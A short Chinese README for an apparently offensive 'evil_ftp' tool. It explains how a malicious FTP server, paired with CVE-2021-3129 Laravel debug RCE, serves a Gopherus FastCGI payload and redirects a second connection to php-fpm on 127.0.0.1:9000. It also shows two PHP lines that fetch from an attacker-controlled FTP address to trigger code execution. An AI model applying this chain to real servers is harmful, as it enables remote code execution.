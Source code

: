 # evil_ftp


本脚本配合CVE-2021-3129 laravel debug rce食用更佳

运行上述脚本，一个恶意ftp服务就起来了(注释已经很详细了）

这个脚本做的事情很简单，就是当客户端第一次连接的时候返回我们预设的payload

当客户端第二次连接的时候将客户端的连接重定向到127.0.0.1:9000,也就是我们的php-fpm服务的端口

ps:其中ftp服务端返回的状态码是比较重要的，如果状态码不对是无法连接成功的，但是这些状态码也不是特别严格
贴一篇参考文章：
https://blog.csdn.net/qq981378640/article/details/51254177

**使用该脚本需要自己修改对应的ip:port**

脚本中的payload是使用的gopherus生成的攻击fastcgi的payload


有了上面的ftp server,下面的两行看似无懈可击的代码也就可以被RCE了：

`$a = file_get_contents("ftp://aaa@172.16.230.146:23/123");`
`file_put_contents("ftp://aaa@172.16.230.146:23/123", $a);`


关于laravle debug rce的复现在这里：

https://mp.weixin.qq.com/s/UPf62W0LoOGsFAdH4uqBcQ
